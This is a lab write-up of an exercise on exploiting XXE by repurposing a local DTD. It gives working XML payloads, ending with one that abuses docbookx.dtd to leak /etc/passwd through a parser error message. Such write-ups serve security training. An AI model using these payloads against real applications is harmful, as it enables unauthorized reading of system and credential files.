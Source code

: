 # Lab: Exploiting XXE to retrieve data by repurposing a local DTD

> Lab Objective: trigger an error message containing the contents of the /etc/passwd file.

- Check Stock for any Product then inspect the HTTP Request.
  ![1st screenshot](./attachments/1.png)

- When triggering XML Parsing Error, using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % xxe SYSTEM "file:///doesntexist">
    %xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The Error occured:
  ![2nd screenshot](./attachments/2.png)

- When testing for the existence of the `file:///usr/share/yelp/dtd/docbookx.dtd` file, using this payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    %local_dtd;
]>
<stockCheck>
<productId>1
</productId>
<storeId>1
</storeId>
</stockCheck>
```

- You don't get an error, therefore the file exist.
  ![3rd screenshot](./attachments/3.png)

- In order to retrieve contents of `/etc/passwd`, use this paylaod:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The contents of `/etc/passwd` is retrieved successfully.
  ![4th screenshot](./attachments/4.png)

---
